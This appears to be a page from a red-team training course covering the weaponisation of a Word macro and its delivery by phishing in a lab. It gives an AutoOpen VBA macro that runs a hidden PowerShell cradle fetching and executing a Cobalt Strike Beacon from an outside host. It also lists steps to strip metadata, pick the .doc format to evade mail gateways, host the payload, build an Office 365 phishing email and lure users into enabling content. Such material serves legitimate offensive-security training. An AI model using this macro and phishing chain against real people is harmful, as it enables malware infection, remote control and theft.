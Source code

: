 VBA is an implementation of Visual Basic that is very widely used with Microsoft Office applications - often used to enhance functionality in Word and Excel for data processing.  The prevalence of macros in the commercial world is a double-edged sword when it comes to leveraging macros for malicious purposes.  On one hand, the presence of a document with embedded macros is not necessarily suspicious; but because they _are_ used maliciously by threat actors, they are also given more scrutiny both from technical products (e.g. web/email gateways) and in security awareness training.

Launch Word on the Attacker Desktop.

You can create a macro in a Word document by going to _View > Macros > Create_.  Change the "Macros in" field from "All active templates and documents" to "Document 1".  Give the macro a name and click _Create_.  To force the macro to trigger automatically when the document is opened, use the name _AutoOpen_.
```vb
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "notepad"

End Sub
```
  If you cannot create Macros due to the Office license, follow the instructions [here](https://training.zeropointsecurity.co.uk/communities/Q29tbXVuaXR5LTIwMjMw/post/UG9zdC02ODQ3OTAx/).

"wscript" is the Windows Script Host, which is designed for automation.  The "shell" method provides the ability to execute OS commands.  To test the above code, use the play/pause/stop buttons.

![](https://files.cdn.thinkific.com/file_uploads/584845/images/0b4/ff5/673/wscript.png)

Next, we need to replace notepad with a Beacon payload.  The easiest to leverage is the PowerShell payload.  In Cobalt Strike, go to _Attacks > Scripted Web Delivery (S)_ and generate a 64-bit PowerShell payload for your HTTP listener.  The URI path can be anything, but I will keep it as _/a_.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/94e/ba0/32d/swd.png)  

  

This will generate a PowerShell payload and host it on the team server so that it can be downloaded over HTTP and executed in-memory.  After clicking _Launch_, Cobalt Strike will generate the PowerShell one-liner that will do just that.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/5c5/5b6/77d/oneliner.png)

  

Copy/paste this line into the VBA and make sure to add another set of double quotation marks around the IEX command.  It should look like this:
```vb
Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://nickelviper.com/a'))"""
```
  

To prepare the document for delivery, go to _File > Info > Inspect Document > Inspect Document_, which will bring up the Document Inspector. Click _Inspect_ and then _Remove All_ next to _Document Properties and Personal Information_.  This is to prevent the username on your system being embedded in the document.

Next, go to _File > Save As_ and save it to _C:\Payloads_.  Give it any filename, but in the _Save as type_ dropdown, change the format from _.docx_ to _Word 97-2003 (.doc)_.  We do this because you can't save macros inside a `.docx` and there's a stigma around the macro-enabled `.docm` extension (e.g. the thumbnail icon has a huge `!` and some web/email gateway block them entirely).  I find that this legacy `.doc` extension is the best compromise.

We then want to upload this file to the team server as well.  Go to _Site Management > Host File_ and select your document.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/087/4fa/7c4/host-file.png)

  

  

Even though the WYSIWYG text editor in OWA supports HTML, it's not very good for composing rich HTML-based emails.  About the best it has are basic formatting options, but there is a bit of a hacky workaround and that is to use a pre-made HTML template.  For example, [here](https://github.com/ZeroPointSecurity/PhishingTemplates/tree/master/Office365) are some HTML templates based around Office 365 (a copy can also be found in `C:\Tools\PhishingTemplates`).  Open one of them, e.g. `Word.html` in Edge or another browser.  Amazingly, what you can do is `Ctrl + A` and `Ctrl + C` to copy the content; and then `Ctrl + V` to paste it directly into the OWA text editor.  All the text and image formatting should be preserved.

You can change the text placeholders and URL to the payload on lines [160](https://github.com/ZeroPointSecurity/PhishingTemplates/blob/master/Office365/Word.html#L160), [183](https://github.com/ZeroPointSecurity/PhishingTemplates/blob/master/Office365/Word.html#L183), [192](https://github.com/ZeroPointSecurity/PhishingTemplates/blob/master/Office365/Word.html#L192), [197](https://github.com/ZeroPointSecurity/PhishingTemplates/blob/master/Office365/Word.html#L197), and [207](https://github.com/ZeroPointSecurity/PhishingTemplates/blob/master/Office365/Word.html#L207).  My payload URL will be _http://nickelviper.com/ProductReport.doc_.

  In the real world, you could use a service such as OneDrive as this would provide you a more legitimate domain name to use.

  

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/c94/98a/87d/doc-phish.png)


Log into Workstation 2 as Bob, launch Outlook, and the email will arrive.

![](https://files.cdn.thinkific.com/file_uploads/584845/images/fd4/90c/b29/inbox.png)

Clicking the link will open Edge and automatically download the document.  Because the file is being downloaded via a browser, it will have the MOTW.  So, when opened, it will first be in Protected View.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/00b/98d/4ad/protected-view.png)

  

The user must first click _Enabled Editing_ and then on _Enable Content_ to execute the macro.  If you attach the document directly to the email, it will not have MOTW and therefore not open in Protected View.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/f56/95e/c92/enabled-content.png)

  

Many real-life samples you try to entice the user to click this button - usually saying something along the lines of "Security Product XYZ has scanned the content and deemed it to be safe.  To reveal the content, click Enable Content".

Once clicked, a PowerShell window will open briefly and then vanish.  A new Beacon will appear in Cobalt Strike.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/e2f/dc0/f3a/first-beacon.png)
